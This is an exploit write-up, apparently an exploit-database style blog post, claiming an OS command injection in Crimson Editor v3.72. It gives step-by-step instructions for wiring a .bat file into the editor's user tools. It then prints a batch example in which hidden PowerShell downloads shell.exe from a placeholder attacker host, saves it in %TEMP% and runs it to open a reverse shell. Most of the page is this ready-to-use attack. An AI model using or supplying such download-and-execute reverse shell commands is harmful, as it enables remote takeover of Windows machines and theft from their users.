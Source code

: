 ```yaml
---
layout: post
title: Crimson Editor v3.72 - OS Command Injection
date: 2023-09-18
category: exploit
---
```


# Exploit Title: Crimson Editor v3.72 - OS Command Injection
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 18.09.2023
# Vendor Homepage: http://www.crimsoneditor.com
# Software Link: http://sourceforge.net/project/showfiles.php?group_id=168261
# Tested Version: v3.72 (latest)
# Tested on: Windows 2019 Server 64bit

### Steps to Reproduce

1. Create a `.bat` file containing your reverse shell command.
2. Open Crimson Editor and navigate to **Tools > Conf. User Tools...**.
3. In the **Menu Text** box, enter "shell".
4. Click on the three dots next to the **Command** box, select your `.bat` file, and then click **Apply > OK** to save.
5. Go to **Tools** again and select **shell**.
6. Your reverse shell should now be active, connecting to your listener.

### Example of Reverse Shell Command in .bat

To create a reverse shell in a `.bat` file, you can use the following code:

```batch
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri http://attacker_ip:port -OutFile %TEMP%\shell.exe; Start-Process %TEMP%\shell.exe"
